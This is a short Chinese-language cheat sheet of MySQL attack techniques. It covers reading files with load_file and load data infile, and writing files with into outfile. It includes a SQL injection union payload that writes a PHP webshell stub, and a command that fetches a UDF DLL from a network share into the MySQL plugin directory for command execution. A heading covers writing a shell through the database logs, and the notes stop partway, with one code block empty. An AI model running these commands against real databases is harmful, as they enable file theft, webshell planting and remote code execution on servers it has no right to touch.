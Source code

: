 读文件前提：
1、用户权限足够高，尽量具有root权限。
2、secure_file_priv不为NULL



load_file()

```bash
insert into read2_tb(word) values (load_file('D:/test.txt'));



# load_file( )函数支持网络路径。如果你可以将DLL复制到网络共享中，那么你就可以直接加载并将它写入磁盘。
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile "D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";

```



load data infile 

```bash
load data infile 'D:/test.txt' into table read2_tb;
```



### 写文件

into outfile

```bash
select * from read2_tb where 1=1 into outfile 'D:/test2.txt';

# 写webshell
id =-1 union select 1,'<?php phpinfo();?>',3,4 into outfile 'c:\\1.php'
```



into dumpfile

```bash
```







### 突破secure-file-priv(通过数据库日志写shell)

5.5.53之前版本，默认情况下此变量（`secure-file-priv`）为空，允许使用mysql终端对secure_file_priv参数更新（不讨论windows环境安装情况）。
5.5.53及之后版本修改secure_file_priv值只能修改my.cnf配置文件（不讨论windows环境安装)。



**load_file:**

![](http://image.xpshuai.cn/img/image-20220119190821425.png)
